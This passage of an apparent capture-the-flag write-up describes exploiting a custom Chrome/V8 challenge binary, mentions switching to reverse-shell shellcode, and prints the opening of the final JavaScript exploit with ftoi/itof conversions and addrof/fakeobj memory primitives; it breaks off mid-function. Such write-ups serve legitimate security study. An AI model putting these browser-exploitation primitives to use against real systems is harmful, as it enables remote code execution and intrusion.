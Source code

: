 Running the given chrome binary as `./chrome --no-sandbox ./xpl.html` resulted in the calculator being popped:-

![chrome calc pop](/img/ropetwo/chrome_calc.png)

Now, with this aside, first off I changed the shellcode from the previous to reverse shell shellcode, for which we will be using the exploit to get reverse shell, the final exploit looked like this:-

```js
var float_arr = [1.1, 2.2, 3.3, 4.4, 5.5];
var obj = {"A":1.1};
var reg = [1, 2, 3, 4];


var buf = new ArrayBuffer(8); // 8 byte array buffer
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

function ftoi(val, size) {

    f64_buf[0] = val;

    if(size == 32) {
        return BigInt(u64_buf[0]);
    } else if(size == 64) {
        return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n);
    }

}

function itof(val, size) {

    if(size == 32) {
        u64_buf[0] = Number(val & 0xffffffffn);
    } else if(size == 64) {
        u64_buf[0] = Number(val & 0xffffffffn);
        u64_buf[1] = Number(val >> 32n);
    }

    return f64_buf[0];

}


var float_arr_map = ftoi(float_arr.GetLastElement(), 32)
var reg_arr_map = float_arr_map - 0xa0n;

console.log("[*] Float array map   :  0x" + float_arr_map.toString(16));
console.log("[*] Regular array map :  0x" + reg_arr_map.toString(16));


function addrof(in_obj) {
	float_arr.SetLastElement(itof(reg_arr_map, 32));
	float_arr[0] = in_obj;
	float_arr.SetLastElement(itof(float_arr_map, 32));
	let addr = float_arr[0];
	return ftoi(addr, 64)
}


function fakeobj(addr) {
	float_arr[0] = itof(addr, 32);
	float_arr.SetLastElement(itof(reg_arr_map, 32));
	let fake = float_arr[0];
```